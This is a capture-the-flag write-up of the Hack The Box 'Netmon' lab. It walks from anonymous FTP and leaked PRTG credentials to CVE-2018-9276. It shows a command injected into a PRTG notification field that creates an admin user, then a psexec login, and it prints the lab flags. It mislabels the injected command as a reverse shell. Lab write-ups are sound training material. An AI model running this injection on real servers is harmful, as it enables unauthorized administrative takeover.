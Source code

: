 # HTB: Netmon

## Engagement Overview

**Target:** Netmon  
**Box IP:** 10.10.10.152  
**Local IP:** 10.10.14.16   
**Date:** 2025-07-22

---

### Objectives

- Gain root access

---

## Service Enumeration

### Nmap Summary

```bash
nmap -sCV -oA nmap.txt 10.10.10.152
```

**Open Ports and Services:**
- **21/tcp** - FTP: Microsoft ftpd  
  - Anonymous login allowed
  - Exposed directory structure with config files
- **80/tcp** - HTTP: Indy httpd (Paessler PRTG)  
  - Version: 18.1.37.13946
  - Web interface accessible
- **135, 139, 445/tcp** - Windows RPC / SMB  
  - Windows Server 2008 R2 - 2012
  - Message signing not required
- **5985/tcp** - Microsoft HTTPAPI

**Host Notes:**
- SMB: Message signing disabled
- Anonymous access enabled

---

## Initial Access

### Vulnerability

- **CVE-2018-9276** – Authenticated RCE via PRTG Notifications

### Approach

1. Logged into FTP using anonymous access:
   - Discovered backup files:
     ```
     PRTG Configuration.old.bak
     ```
   - Downloaded `.bak` config file via FTP

2. Extracted credentials from config file:
   ```
   user: prtgadmin
   pass: PrTg@dmin2019
   ```

3. Logged into PRTG web interface at `http://10.10.10.152`:
   - Version: 18.1.37.13946
   - Vulnerable to CVE-2018-9276

---

## Privilege Escalation

### Exploit Method

- Injected reverse shell payload into the **PRTG Notification** system:
  ```plaintext
  abc.txt | net user htb abc123! /add & net localgroup administrators htb /add
  ```

- Executed the notification, then used `impacket-psexec` with the new user:
```bash
impacket-psexec htb:'abc123!'@10.10.10.152
```

### Result

- Logged in as **NT AUTHORITY\SYSTEM**
- Retrieved root flag successfully:
  ```
  C:\Users\Administrator\Desktop> type root.txt
  1fd2f7f093ba33f259d228549f100af6
  ```

---

## Post-Exploitation

### Flags

- **User Flag:** `1cfe7df9dbd51bcb426b0b8407544209`
- **Root Flag:** `1fd2f7f093ba33f259d228549f100af6`

### Credentials Dumped

- `prtgadmin` / `PrTg@dmin2019`

---

## Tools Utilized

- Nmap  
- FTP  
- Impacket (psexec.py)  
- Metasploit (optional, noted in research)

---

## House Cleaning

- No persistent users or shells left
- Access obtained and closed out after flag retrieval

---

## Key Takeaways

- Classic CVE exploitation with real-world software (PRTG)
- Importance of scanning for backup config files on exposed FTP
- Enumeration + light analysis = full box compromise
